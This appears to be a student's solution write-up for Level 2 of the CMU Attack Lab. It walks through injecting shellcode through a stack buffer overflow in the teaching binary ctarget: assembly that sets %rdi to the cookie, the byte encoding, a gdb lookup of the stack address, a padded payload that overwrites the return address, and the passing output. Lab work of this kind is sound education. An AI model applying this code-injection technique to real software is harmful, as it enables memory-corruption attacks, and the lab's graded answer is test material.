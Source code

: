 # 4.2 Level 2

Phase 2 involves injecting a small amount of code as part of your exploit string.
Within the file ctarget there is code for a function touch2 having the following C representation:

```C
void touch2(unsigned val)
{
vlevel = 2; /* Part of validation protocol */
if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
} else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
 }
    exit(0);
 }
```

Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case,
however, you must make it appear to touch2 as if you have passed your cookie as its argument.

Some Advice:
- You will want to position a byte representation of the address of your injected code in such a way that ret instruction at the end of the code for getbuf will transfer control to it.
- Recall that the first argument to a function is passed in register %rdi.
- Your injected code should set the register to your cookie, and then use a ret instruction to transfer
control to the first instruction in touch2.
- Do not attempt to use jmp or call instructions in your exploit code. The encodings of destination
addresses for these instructions are difficult to formulate. Use ret instructions for all transfers of
control, even when you are not returning from a call.
- See the discussion in Appendix B on how to use tools to generate the byte-level representations of
instruction sequences.

# Idea
3.10.3 : the program is fed with a string that contains the byte encoding of some executable code, called the exploit code, 
plus some extra bytes that overwrite the return address with a pointer to the exploit code. 
The effect of executing the ret instruction is then to jump to the exploit code.

the exploit code is the bytes sequence machine code(hex format) start from address
68 ef cd ab 00 .... (pushq  $0xabcdef)

the program will read these bytes as sequence instructions


# Solution
1. build exploit2.s
```assembly
movq  $0x59b997fa, %rdi  # set the register %rdi (first argument) to your cookie 值 0x59b997fa
pushq 0x4017ec           # push the address of the touch2 to stack to set return address 
ret                      # when return, go to the address of the touch2 by pop from the stack
```
2. then convert exploit2.s to hex-formatted byte sequencenc then to bytes.
```shell
# assemble the assemble file(text) to object file(binary) exploit2.o
unix> gcc -c exploit2.s
# disassemble the object file(binary) to 
unix> objdump -d exploit2.o > exploit2.d

# exploit2.o:     file format elf64-x86-64

# Disassembly of section .text:

# 0000000000000000 <.text>:
#    0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
#    7:	68 ec 17 40 00       	pushq  $0x4017ec
#    c:	c3                   	retq   

# get hex-formatted byte sequencenc as instruction sequence from disassemble file exploit2.d
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 
#（高地址）
# This string can then be passed through HEX2RAW to generate an input string for the target programs..
# Alternatively, you can edit example.d to omit extraneous values and to contain C-style comments for readability, 
# yielding:
48 c7 c7 fa 97 b9 59 	/* mov    $0x59b997fa,%rdi */
68 ec 17 40 00       	/* pushq  $0x4017ec */
c3                   	/* retq   */

```

3. get the rsp register address when return getbuf

```shell
gdb ctarget
```

```gdb
(gdb) b getbuf
(gdb) run -q
(gdb) disas
(gdb) n
(gdb) p $rsp 
$1 = (void *) 0x5561dc78
(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```

0x5561dc78 to little endian
low address:  78 dc 61 55


4. edit the exploit2_.d

48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00                  	
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00

getbuf stack frame should be:
00 00 00 55 61 dc 78    -> rsp 地址       
+-----------------------------+ <-- 高地址（栈底方向）
00 00 00 00 00 00 00 00                  	
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 c3 00 40 17 ec
68 59 b9 97 fa c7 c7 48
+-----------------------------+ <-- 低地址 当前栈顶（%rsp 指向 buf 起始地址）


5. convert exploit2_.d to raw format
```shell
cat exploit2_.d | ./hex2raw > raw2.txt
```


##  Run progrom with inject assemble code(exploit code) 
   
```shell
./ctarget -q < raw2.txt

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 


```

## GDB
callq getbuf function:
- inject assemble code(exploit code) in memory
- overwrite the return address on stack to the address of the start of exploit code 

ret instruction in getbuf:
- pop the return address from the stack
- set %rip to the address of the start of exploit code
- jump to the start of the exploit code

execute the exploit code
- set the register %rdi (first argument) to your cookie
- push the return address of touch2 to the stack

ret instruction in exploit code
use a ret instruction to transfer control to the first instruction in touch2
- pop the return address of touch2 from the stack
- set %rip to the address of the start of touch2
- jump to the start of touch2
  









# FAQs

1. when the program is fed with a string that contains the byte encoding of some executable code, how can we get the address for this exccutable code?

by set the return address to register rsp address

2. when overwrite the return address of getbuf function to register rsp address, the program will return to rsp address, but why then the prograom will execute the exploit code by buffer overflow?

- overwrite the return address of getbuf function to register rsp address
- ret in getbuf return to rsp address
- from rsp address read exploit code instructions( bytes )

